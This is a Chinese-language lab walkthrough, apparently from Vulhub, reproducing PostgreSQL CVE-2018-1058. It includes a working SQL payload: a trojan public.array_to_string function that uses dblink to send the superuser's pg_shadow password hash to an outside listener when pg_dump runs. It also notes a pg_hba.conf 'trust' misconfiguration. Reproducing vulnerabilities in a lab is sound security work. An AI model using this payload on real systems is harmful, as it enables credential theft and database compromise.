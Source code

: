 #### CVE-2018-1058

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

**漏洞环境**

启动存在漏洞的环境：

```
docker compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

**漏洞复现**

参考上述链接中的第二种利用方式，我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`

![img](https://vulhub.org/vulhub/postgres/CVE-2018-1058/1.png)

执行如下语句后退出：

```postgresql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

然后我在`10.0.0.1`上监听5433端口，等待超级用户触发我们留下的这个“后门”。

（假装自己是超级用户）在靶场机器下，用超级用户的身份执行`pg_dump`命令：`docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。

执行上述命令的同时，“后门”已被触发，`10.0.0.1`机器上已收到敏感信息：

![img](https://vulhub.org/vulhub/postgres/CVE-2018-1058/2.png)

上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。



#### dblink

pg_hba.conf 文件可能配置不当，**允许**来自**本地主机的任何用户**连接而无需知道密码。该文件通常可以在 /etc/postgresql/12/main/pg_hba.conf 中找到，不良配置如下：

local  all  all  trust

 

*请注意，此配置通常用于在管理员忘记密码时修改数据库用户的密码，因此有时您可能会找到它。 还要注意，pg_hba.conf 文件只能被 postgres 用户和组读取，只能被 postgres 用户写入。*

 
